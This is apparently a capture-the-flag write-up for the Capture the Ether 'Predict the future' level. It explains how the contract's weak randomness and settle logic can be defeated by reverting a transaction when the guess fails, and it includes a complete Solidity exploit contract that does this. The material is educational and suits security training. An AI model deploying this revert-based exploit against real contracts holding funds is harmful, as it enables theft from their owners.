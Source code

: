 ```yaml
---
description: >-
  In Capture the Ether's "Predict the future", we see our first "secret
  variable" that cannot be known prior to making our guess.
---
```


# Predict the future

In this [level](https://capturetheether.com/challenges/lotteries/predict-the-future/), we are required to "lock in" our guess prior to checking it against a future (truly unknowable) value.

### Hints

<details>

<summary>Hint One</summary>

Interestingly enough, solving this problem does not depend at all on which value we choose for our guess. It simply needs to be one of the ten possible answers.

</details>

<details>

<summary>Hint Two</summary>

Lock in any guess between 0 and 9. The solution depends on when we choose to call `settle`. For any value we choose, `settle` will _sometimes_ generate an answer equal to it. So, is there a way to call `settle` without _really_ calling `settle` so as to avoid settling on a value that doesn't match our guess?

</details>

### Full Walkthrough

The `answer` may be any value between 0 and 9, due to the `% 10` operation below:

```solidity
uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;
```

As the guess must be "locked in" in a block prior to generating the `answer`, and the `answer` is generated based on values unknowable at the time of making our guess, we truly have no way of gaining an edge by picking one guess over another. We can therefor lock in any of the 10 possible values and move on to examining the `settle` function itself.

Let's look at both the `settle` function and the `isComplete` functions:

```solidity
function isComplete() public view returns (bool) {
    return address(this).balance == 0;
}

// ...

function settle() public {
    require(msg.sender == guesser);
    require(block.number > settlementBlockNumber);

    uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;

    guesser = 0;
    if (guess == answer) {
        msg.sender.transfer(2 ether);
    }
}
```

If `settle` finds our guess to be correct, it transfers the balance of the contract to the player's address. This action, and only this action, will cause the `isComplete` function to return `true`. This means we can use `isComplete` as an indicator as to whether our guess was correct.

The trick is that Solidity executes transactions in an "all or nothing" manner, meaning if a single operation in the series of operations that make up a transaction reverts, the entire transaction reverts. This means we can call `settle` to check our guess, then call `isComplete` to see if the guess was correct. If the guess was _not_ correct, we can revert, cancelling the entire transaction including the line 13 above which sets `guesser` to 0. This approach allows us to call `settle` as many times as we need to before finally "settling" when our guess matches.

### Scripted Solution

```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.7;

interface IPredictTheFutureChallenge {
    function lockInGuess(uint8 n) external payable;

    function settle() external;

    function isComplete() external view returns (bool);
}

contract PredictTheFutureChallengeExploit {
    IPredictTheFutureChallenge private _challengeContract;
    uint8 private _guess;

    /**
     * Constructor sets `PredictTheFutureChallenge` contract.
     */
    constructor(address challengeContractAddress) {
        _challengeContract = IPredictTheFutureChallenge(
            challengeContractAddress
        );
    }

    /**
     * Calls `lockInGuess` on `PredictTheFutureChallenge` with provided guess
     * `n`.
     */
    function lockInGuess(uint8 n) external payable {
        _guess = n;

        // Call `lockInGuess` with `msg.value` ether
        _challengeContract.lockInGuess{value: msg.value}(_guess);
    }

    /**
     * Calls `settle` on `PredictTheFutureChallenge` contract. Will revert if
     * guess was incorrect.
     */
    function settle() external {
        // Call `settle` on `PredictTheFutureChallenge` contract
        _challengeContract.settle();

        // Ensure guess was correct
        require(
            _challengeContract.isComplete(),
            "PredictTheFutureChallengeExploit: Challenge not complete"
        );

        // Return contract balance to `msg.sender`
        payable(msg.sender).transfer(address(this).balance);
    }

    receive() external payable {}
}

```
